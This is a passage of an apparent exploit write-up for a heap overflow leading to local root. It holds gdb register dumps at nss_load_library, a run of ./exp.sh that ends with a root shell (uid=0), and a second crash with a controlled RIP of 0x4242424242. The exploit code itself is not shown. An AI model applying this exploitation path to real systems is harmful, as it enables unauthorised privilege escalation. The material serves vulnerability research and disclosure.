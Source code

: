 ```
r14            0x555555582928      93824992422184
r15            0x55555558d620      93824992466464
rip            0x7ffff7e9f4ee      0x7ffff7e9f4ee <nss_load_library+46>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
(gdb) => 0x7ffff7e9f4ee <nss_load_library+46>:  cmpq   $0x0,0x8(%rbx)
```

Result:

```
bob@ubuntu-research:~/exploit$ ./exp.sh
[.] crafting payload...
[.] triggering heap overflow...
[+] callback executed!
[+] we are root!
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(bob)
# 
```

## Additional Arbitrary RIP crash

This is just an additional found crash, which seems no useful as we can just change 5 bytes of RIP address

```
Program received signal SIGSEGV, Segmentation fault.
0x0000004242424242 in ?? ()
rax            0x0                 0
rbx            0x555555587140      93824992440640
rcx            0x7                 7
rdx            0x0                 0
rsi            0x7fffffffe570      140737488348528
rdi            0x7ffff796e64d      140737347249741
rbp            0x7ffff796e64d      0x7ffff796e64d
rsp            0x7fffffffe568      0x7fffffffe568
r8             0x7ffff7f61081      140737353486465
r9             0x7fffffffe4d0      140737488348368
r10            0xffffffff          4294967295
r11            0x202               514
r12            0x7fffffffe570      140737488348528
r13            0x7fffffffe5b0      140737488348592
r14            0x7fffffffe618      140737488348696
r15            0x2                 2
rip            0x4242424242        0x4242424242
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
```